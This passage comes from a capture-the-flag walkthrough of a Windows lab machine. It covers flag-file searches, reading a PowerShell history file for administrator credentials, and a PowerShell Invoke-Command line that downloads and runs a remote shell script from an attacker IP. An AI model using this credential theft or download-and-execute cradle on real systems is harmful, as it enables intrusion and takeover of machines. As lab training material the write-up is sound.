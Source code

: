 We've got the PS shell.

| # |  |
| --- | --- |
| Linux Bash | `find / -name user.txt 2>/dev/null` |
| Windows PowerShell | `gci c:\ -Force -r -fi user.txt 2>NULL` |

> `gci` is an alias for `Get-ChildItem`

![4745490917121.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1623932985178/NLP8xiau_.png align="left")

[Back to top](#contents) ⤴

# Escalating Privileges

Ok, let's try to blind shot for other `*.txt` files

```ps1
gci c:\ -r -Force -fi *.txt 2>NULL
```

![1003112787307.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1623932997599/kxyDmbfmN.png align="left")

This is a persistent PowerShell history. Lets `cat` it out.

```text
cat C:\Users\sql_svc\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt
```

![2347245881447.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1623933008469/4sbZuCgMl.png align="left")

Sweet, additional credentials to collection.

```sh
echo 'administrator|MEGACORP_4dm1n!!' | tee -a ../.credentials
```

And it looks like a System Account. Let's try to hop into his PS Session.

```plaintext
$username = "administrator";$password = "MEGACORP_4dm1n!!" | ConvertTo-SecureString -AsPlainText -Force;
$cred = New-Object System.Management.Automation.PSCredential -ArgumentList $username,$password;

Invoke-Command -ComputerName ARCHETYPE -Credential $cred -ScriptBlock {echo IEX(New-Object Net.WebClient).DownloadString('http://10.10.XX.XXX/system.ps1') | powershell}
```

> In `system.ps1` I was reusing the `cmd.ps1` with different listening port

![999794512987.png](https://cdn.hashnode.com/res/hashnode/image/upload/v1623933022870/Q0vXW53tR.png align="left")

This is the same flag file, we just are using the `-Force` parameter and hidden folder `Documets and Settings` with symbolic link is showing.
